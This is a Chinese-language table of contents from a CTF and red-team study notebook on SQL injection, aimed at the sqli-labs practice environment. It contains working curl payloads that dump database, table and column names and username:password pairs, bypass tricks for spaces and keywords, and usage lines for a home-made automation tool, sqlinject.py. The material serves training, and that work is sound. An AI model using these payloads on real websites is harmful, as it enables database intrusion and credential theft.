

# SQL 注入知识库总目录

> SQL 注入是 CTF Web 方向的**核心考点**，几乎每场比赛都会以不同变式出现。本知识库分为五章基础手法 + mysql结构专项九个进阶场景，每章都包含原理、**curl 全终端五步实操**、自动化脚本与防御思路。

## 统一五步方法论

全部章节的手工实操遵循同一条 curl 命令链（具体形式随注入点位置而变）：

```bash
# 1 确认注入存在：恒真/恒假响应对比
curl -s "http://target/?id=1 and 1=1"
curl -s "http://target/?id=1 and 1=2"      # 前后不同 -> 注入成立
# 2 探测列数 order by（保证流程完整，熟练后可跳过）
curl -s "http://target/?id=1 order by 3"
# 3 获取当前数据库名
curl -s "http://target/?id=-1 union select 1,database(),3"
# 4 根据库名获取表名
curl -s ".../?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='库名'"
# 5 根据表名获取列名，再提取数据
curl -s ".../?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='表名'"
curl -s ".../?id=-1 union select 1,group_concat(username,0x3a,password),3 from 表名"
```

无 union 回显时，第 3-5 步换用报错函数（updatexml）或盲注猜解完成，思路不变。

## 章节目录：基础五章

| 章节 | 主题 | 一句话说明 |
|------|------|-----------|
| [[01-整数型注入\|01-整数型注入]] | 数字参数拼接 | 参数无引号包裹直接拼进 SQL，`and 1=1` 即可判断，`union select` 全家桶拿数据 |
| [[02-字符型注入\|02-字符型注入]] | 引号内逃逸 | 参数在引号内，先找闭合方式再注释尾巴，闭合对了后面与整数型套路一致 |
| [[03-报错注入\|03-报错注入]] | 错误信息回显数据 | 页面会回显数据库报错时，用 extractvalue/updatexml/floor 三大函数把查询结果塞进报错里 |
| [[04-布尔盲注\|04-布尔盲注]] | 真假页面猜解 | 无数据回显但页面有真假两种状态，逐位构造条件语句猜解库名表名列名 |
| [[05-时间盲注\|05-时间盲注]] | 延迟判断真假 | 连页面差异都没有时，用 sleep() 让响应时长替你"说话"，DNSlog 带外是终极出路 |

## 章节目录：mysql结构专项（[[mysql结构/mysql结构总目录\|子目录入口]]）

注入点不在 GET 参数、或语句位特殊时的九个进阶场景：

| 章节 | 注入点/场景 | 关键 curl 形式 |
|------|------------|---------------|
| [[mysql结构/01-Cookie注入\|Cookie 注入]] | Cookie 头 | `curl -b "uname=payload"`；less-21/22 需 base64 |
| [[mysql结构/02-UA注入\|UA 注入]] | User-Agent 头（insert 日志表） | `curl -A "payload" -d "有效凭证"` |
| [[mysql结构/03-Refer注入\|Refer 注入]] | Referer 头 | `curl -H "Referer: payload"` |
| [[mysql结构/04-二次注入\|二次注入]] | 存储后触发 | 两阶段 curl（注册恶意数据 + 触发页） |
| [[mysql结构/05-过滤空格\|过滤空格]] | 空格被 WAF 拦截 | `/**/` `%09` `%0a` 替代空格跑通五步 |
| [[mysql结构/06-AND_OR注入\|AND/OR 过滤]] | and/or 被过滤 | 双写 `anandd` / `\|\|` `&&` / 异或 `^` |
| [[mysql结构/07-ORDER_BY注入\|ORDER BY 位]] | 排序参数 | 报错/if 差异/sleep 三条路线（禁 union） |
| [[mysql结构/08-UPDATE注入\|UPDATE 位]] | 更新/改密页 | SET 位闭合 + 报错提数（无回显集） |
| [[mysql结构/09-综合训练\|综合训练]] | 决策手册 | 全场景决策树 + 综合案例全程 curl |

## 自动化工具：sqlinject.py

手工五步熟练后，用自制工具一键完成全终端操作：

```bash
cd ~/hackingtools/web/injection
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-2/?id=1"          # GET 全流程
./sqlinject.py -u "..." --cookie "uname=1" --cookie-point            # Cookie 位
./sqlinject.py -u "..." --blind bool                                 # 布尔盲注
./sqlinject.py -u "..." --tamper space2comment,doublewrite           # WAF 绕过
./sqlinject.py -h                                                    # 完整指南
```

工具支持 GET/POST/Cookie/UA/Referer 五种注入点、布尔与时间盲注自动化、八种 tamper 绕过与自定义 payload。源码结构与用法详见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`，源码在 `web/源代码/sqlinject/`）。

## 学习路线



学习建议：先在本地搭好 sqli-labs 靶场（Less-1 到 Less-9 正好对应这五种类型），每学完一章立刻打对应关卡巩固。

## 每章前置依赖

| 章节 | 前置要求 |
|------|---------|
| 整数型注入 | 会基本 SQL 语法即可 |
| 字符型注入 | 理解引号在 SQL 中的作用 |
| 报错注入 | 熟悉前两章的 union 流程（爆库爆表套路通用） |
| 布尔盲注 | 熟练 substr/ascii 函数，会写简单 Python 脚本 |
| 时间盲注 | 理解布尔盲注的猜解逻辑 |

## 关联知识

- [[../Web前置技能/数据库/数据库|数据库前置]] -- MySQL 基础语法、information_schema 结构、常用函数
- [[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]] -- sqlmap 自动化、DVWA 实战、tamper 绕过
- [[../Web前置技能/HTTP协议/HTTP协议|HTTP协议]] -- GET/POST 区别、URL 编码（注释符 %23 等）
- [[../信息泄露/Git泄露/Git泄露|Git泄露]] -- 同属 Web 入门必刷考点

## 万能排查口诀

拿到注入点先问自己四个问题：

1. **有回显吗？** 有 → union 或报错；无 → 盲注或带外
2. **什么类型？** 数字型不加引号，字符型先找闭合
3. **过滤了什么？** 空格、引号、关键字、注释符各有绕法
4. **能延迟吗？** sleep 都不行就只能 DNSlog 或二阶注入

---
**返回** [[../../../总目录与快速查询|红队总目录]]
